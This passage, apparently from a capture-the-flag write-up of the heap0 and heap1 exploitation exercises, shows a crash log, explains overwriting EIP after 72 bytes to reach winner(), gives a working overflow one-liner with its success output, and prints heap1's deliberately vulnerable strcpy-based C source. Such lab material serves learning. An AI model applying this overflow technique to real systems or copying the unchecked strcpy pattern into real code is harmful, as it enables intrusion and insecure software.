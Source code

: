 ```
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
From some light fuzzing it is possible to see that after a buffer size of 72, we are overwriting EIP. Let's now try use this to redirect into the winner() function.

After checking for the entry point, and writing the address into this space after 72 bytes, we see that it has been successful and the challenge is complete.

```
./heap0 $(python -c "print 'A' * 72 + 'd\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed
```

### ExploitCode
```
./heap0 $(python -c "print 'A' * 72 + 'd\x84\x04\x08'")
```

## Heap1
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```
In this second challenge, there are 2 arguments we need to pass to the program.
